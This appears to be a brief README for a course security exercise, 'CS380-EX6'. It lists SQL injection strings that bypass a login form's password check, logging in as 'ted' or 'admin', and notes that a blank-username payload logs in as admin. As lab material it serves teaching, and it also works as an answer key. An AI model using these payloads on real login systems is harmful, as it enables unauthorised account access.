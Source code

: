 # CS380-EX6

Ted login with no pass:	ted'); # ' 
<br />
Admin login with no pass:	admin'); # ' 
<br />
Blank username:	' OR name = name); #
<br />
Blank username logs in as admin.
